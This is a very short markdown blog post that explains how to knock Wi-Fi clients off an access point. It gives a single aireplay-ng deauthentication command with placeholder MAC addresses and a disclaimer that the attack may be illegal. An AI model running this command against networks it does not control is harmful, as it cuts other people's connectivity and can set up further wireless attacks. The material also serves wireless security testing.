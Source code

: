 ```yaml
---
layout: post
title: "Deauthenticate (Disconnect) WLAN Clients from Access Point"
---
```


> **Disclaimer**: This might be illegal in some countries. Perform this attack on your own network only!

```bash
aireplay-ng -0 1 -a <$AP_MAC> [-c <$CLIENT_MAC>] wlan0
```

> **Note**: If `-c` ist not set, the deauth request is broadcasted to all clients!

---
